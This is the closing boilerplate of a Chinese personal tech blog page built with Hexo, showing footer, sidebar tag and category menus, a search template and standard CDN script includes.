      <i class="fa fa-hand-o-right" aria-hidden="true"></i>
    </a>
  
</nav>


    
</section>
        
      </div>
      <footer id="footer">
  <div class="outer">
    <div id="footer-info" class="inner">
      
<p>
    <span id="busuanzi_container_site_uv" style="display:none">
        总访客数：<span id="busuanzi_value_site_uv"></span>
    </span>
    <span id="busuanzi_container_site_pv" style="display:none">
        总访问量：<span id="busuanzi_value_site_pv"></span>
    </span>
</p>


      <!-- <p>
        Powered by  <a href="http://hexo.io/" target="_blank">Hexo</a>
        Theme <a href="//github.com/wongminho/hexo-theme-miho" target="_blank">MiHo</a>
      &copy; 2019 liuxuewen<br>
      </p> -->
      <p>
        1320325272@qq.com 
        liuxuewen
      </p>
    </div>
  </div>
</footer>
    <script async src="//busuanzi.ibruce.info/busuanzi/2.3/busuanzi.pure.mini.js"></script>
<script src="//cdn.bootcss.com/jquery/3.2.1/jquery.min.js"></script>
<script>
  var mihoConfig = {
      root: "http://liuxuewen-site.github.io",
      animate: true,
      isHome: false,
      share: true,
      reward: 1
  }
</script>
<div class="sidebar">
    <div id="sidebar-search" title="Search">
        <i class="fa fa-search"></i>
    </div>
    <div id="sidebar-category" title="Categories">
        <i class="fa fa-book"></i>
    </div>
    <div id="sidebar-tag" title="Tags">
        <i class="fa fa-tags"></i>
    </div>
    <div id="sidebar-top">
        <span class="sidebar-top-icon"><i class="fa fa-angle-up"></i></span>
    </div>
</div>
<div class="sidebar-menu-box" id="sidebar-menu-box">
    <div class="sidebar-menu-box-container">
        <div id="sidebar-menu-box-categories">
            <a class="category-link" href="/categories/hexo/">hexo</a><a class="category-link" href="/categories/前端/">前端</a><a class="category-link" href="/categories/后台/">后台</a><a class="category-link" href="/categories/数据结构/">数据结构</a><a class="category-link" href="/categories/网络协议/">网络协议</a><a class="category-link" href="/categories/项目/">项目</a>
        </div>
        <div id="sidebar-menu-box-tags">
            <a href="/tags/hexo/" style="font-size: 12.86px;">hexo</a> <a href="/tags/前端-CSS/" style="font-size: 14.29px;">前端-CSS</a> <a href="/tags/前端-ES6/" style="font-size: 11.43px;">前端-ES6</a> <a href="/tags/前端-HTML5/" style="font-size: 10px;">前端-HTML5</a> <a href="/tags/前端-JS/" style="font-size: 18.57px;">前端-JS</a> <a href="/tags/前端-react/" style="font-size: 20px;">前端-react</a> <a href="/tags/前端-安全性/" style="font-size: 10px;">前端-安全性</a> <a href="/tags/前端-性能优化/" style="font-size: 10px;">前端-性能优化</a> <a href="/tags/前端-服务器/" style="font-size: 11.43px;">前端-服务器</a> <a href="/tags/前端-移动端适配/" style="font-size: 11.43px;">前端-移动端适配</a> <a href="/tags/前端-考题/" style="font-size: 17.14px;">前端-考题</a> <a href="/tags/后台/" style="font-size: 10px;">后台</a> <a href="/tags/数据结构/" style="font-size: 10px;">数据结构</a> <a href="/tags/网络协议/" style="font-size: 15.71px;">网络协议</a> <a href="/tags/项目/" style="font-size: 10px;">项目</a>
        </div>
    </div>
    <a href="javascript:;" class="sidebar-menu-box-close">&times;</a>
</div>
<div class="mobile-header-menu-nav" id="mobile-header-menu-nav">
    <div class="mobile-header-menu-container">
        <span class="title">Menus</span>
        <ul class="mobile-header-menu-navbar">
            
            <li>
                <a href="/">
                    <i class="fa fa-home"></i><span>Home</span>
                </a>
            </li>
            
            <li>
                <a href="/archives">
                    <i class="fa fa-archive"></i><span>Archives</span>
                </a>
            </li>
            
            <li>
                <a href="/about">
                    <i class="fa fa-user"></i><span>About</span>
                </a>
            </li>
            
        </ul>
    </div>
    <div class="mobile-header-tag-container">
        <span class="title">Tags</span>
        <div id="mobile-header-container-tags">
            <a href="/tags/hexo/" style="font-size: 12.86px;">hexo</a> <a href="/tags/前端-CSS/" style="font-size: 14.29px;">前端-CSS</a> <a href="/tags/前端-ES6/" style="font-size: 11.43px;">前端-ES6</a> <a href="/tags/前端-HTML5/" style="font-size: 10px;">前端-HTML5</a> <a href="/tags/前端-JS/" style="font-size: 18.57px;">前端-JS</a> <a href="/tags/前端-react/" style="font-size: 20px;">前端-react</a> <a href="/tags/前端-安全性/" style="font-size: 10px;">前端-安全性</a> <a href="/tags/前端-性能优化/" style="font-size: 10px;">前端-性能优化</a> <a href="/tags/前端-服务器/" style="font-size: 11.43px;">前端-服务器</a> <a href="/tags/前端-移动端适配/" style="font-size: 11.43px;">前端-移动端适配</a> <a href="/tags/前端-考题/" style="font-size: 17.14px;">前端-考题</a> <a href="/tags/后台/" style="font-size: 10px;">后台</a> <a href="/tags/数据结构/" style="font-size: 10px;">数据结构</a> <a href="/tags/网络协议/" style="font-size: 15.71px;">网络协议</a> <a href="/tags/项目/" style="font-size: 10px;">项目</a>
        </div>
    </div>
</div>
<div class="search-wrap">
    <span class="search-close">&times;</span>
        <a href="javascript:;" class="header-icon waves-effect waves-circle waves-light" id="back">
            <i class="icon icon-lg icon-chevron-left"></i>
        </a>
        <input class="search-field" placeholder="Search..." id="keywords">
        <a id="search-submit" href="javascript:;">
            <i class="fa fa-search"></i>
        </a>
    <div class="search-container" id="search-container">
        <ul class="search-result" id="search-result">
        </ul>
    </div>
</div>

<div id="search-tpl">
    <li class="search-result-item">
        <a href="{url}" class="search-item-li">
            <span class="search-item-li-title" title="{title}">{title}</span>
        </a>
    </li>
</div>
<script src="/js/search.js"></script>
<script src="/js/main.js"></script>


  <script src="//cdn.bootcss.com/particles.js/2.0.0/particles.min.js"></script>
  <div id="particles"></div>
  <script src="/js/particles.js"></script>


  <link rel="stylesheet" href="//cdn.bootcss.com/animate.css/3.5.0/animate.min.css">
  <script src="//cdn.bootcss.com/scrollReveal.js/3.0.5/scrollreveal.js"></script>
  <script src="/js/animate.js"></script>


  <script src="/js/pop-img.js"></script>
  <script>
     $(".article-entry p img").popImg();
  </script>

  </div>
</body>
</html>